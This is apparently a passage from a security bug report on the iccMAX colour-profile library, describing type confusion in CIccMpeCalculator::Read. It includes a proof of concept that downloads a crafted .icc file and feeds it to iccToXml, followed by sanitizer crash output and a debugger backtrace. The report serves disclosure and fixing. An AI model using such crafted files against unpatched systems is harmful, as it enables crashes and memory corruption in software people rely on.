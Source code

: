 #### 3. Type Mismatch Concerns
- The inline evaluation confirmed that the tag retrieved was a `CIccTagMultiProcessElement` rather than the expected `CIccTagLutAtoB` type. This mismatch can result in unsafe operations or misbehavior, particularly during downcasting or type-specific processing.

## Issue 3 - Type Confusion in `CIccMpeCalculator::Read`

### PoC

```
cd Testing/
wget https://github.com/xsscx/PatchIccMAX/raw/development/contrib/UnitTest/icSigMatrixElemType-Read-poc.icc
iccToXml icSigMatrixElemType-Read-poc.icc icSigMatrixElemType-Read-poc.xml

IccProfLib/IccMpeCalc.cpp:4562:37: runtime error: downcast of address 0x606000001940 which does not point to an object of type 'CIccMpeCalculator'
0x606000001940: note: object is of type 'CIccMpeXmlMatrix'
 00 00 00 00  50 15 d4 01 01 00 00 00  00 00 00 00 0b 00 24 00  80 07 00 00 b0 61 00 00  b0 1c 00 00
              ^~~~~~~~~~~~~~~~~~~~~~~
              vptr for 'CIccMpeXmlMatrix'
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior IccProfLib/IccMpeCalc.cpp:4562:37 in
=================================================================
==22246==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x6140000003f0 at pc 0x000101c0153a bp 0x7ff7bee70070 sp 0x7ff7bee70068
READ of size 4 at 0x6140000003f0 thread T0
    #0 0x101c01539 in CIccTagXmlSpectralViewingConditions::ToXml(std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char>>&, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char>>) IccTagXml.cpp:2026
    #1 0x101b97dc3 in CIccProfileXml::ToXmlWithBlanks(std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char>>&, std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char>>) IccProfileXml.cpp:281
    #2 0x101b8dd05 in CIccProfileXml::ToXml(std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char>>&) IccProfileXml.cpp:79
    #3 0x10109028e in main IccToXml.cpp:38
    #4 0x7ff816825344 in start+0x774 (dyld:x86_64+0xfffffffffff5c344)

(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = Dynamic type mismatch
  * frame #0: 0x000000010104cd70 libclang_rt.asan_osx_dynamic.dylib`__ubsan_on_report
    frame #1: 0x0000000101047c9e libclang_rt.asan_osx_dynamic.dylib`__ubsan::Diag::~Diag() + 206
    frame #2: 0x000000010104d568 libclang_rt.asan_osx_dynamic.dylib`HandleDynamicTypeCacheMiss(__ubsan::DynamicTypeCacheMissData*, unsigned long, unsigned long, __ubsan::ReportOptions) + 440
    frame #3: 0x000000010104d3a0 libclang_rt.asan_osx_dynamic.dylib`__ubsan_handle_dynamic_type_cache_miss + 48
    frame #4: 0x0000000101fce4ef libIccProfLib2.2.dylib`CIccMpeCalculator::Read(this=0x0000612000000340, size=3868, pIO=0x00007ff7bfeff000) at IccMpeCalc.cpp:4562:37
    frame #5: 0x00000001023f0cb1 libIccProfLib2.2.dylib`CIccTagMultiProcessElement::Read(this=0x00006070000001e0, size=3892, pIO=0x00007ff7bfeff000) at IccTagMPE.cpp:1059:21
    frame #6: 0x0000000100c7191f libIccXML2.2.dylib`CIccTag::Read(this=0x00006070000001e0, size=3892, pIO=0x00007ff7bfeff000, pProfile=0x00007ff7bfefef20) at IccTagBasic.h:197:87
    frame #7: 0x0000000102092de4 libIccProfLib2.2.dylib`CIccProfile::LoadTag(this=0x00007ff7bfefef20, pTagEntry=0x0000604000000d20, pIO=0x00007ff7bfeff000, bReadAll=false) at IccProfile.cpp:1214:14
    frame #8: 0x00000001020a3738 libIccProfLib2.2.dylib`CIccProfile::Read(this=0x00007ff7bfefef20, pIO=0x00007ff7bfeff000, bUseSubProfile=false) at IccProfile.cpp:774:10
    frame #9: 0x000000010000409a iccToXml`main(argc=3, argv=0x00007ff7bfeff4a8) at IccToXml.cpp:30:16
    frame #10: 0x00007ff816825345 dyld`start + 1909
(lldb) fr se 4
frame #4: 0x0000000101fce4ef libIccProfLib2.2.dylib`CIccMpeCalculator::Read(this=0x0000612000000340, size=3868, pIO=0x00007ff7bfeff000) at IccMpeCalc.cpp:4562:37
   4559	        free(posvals);
```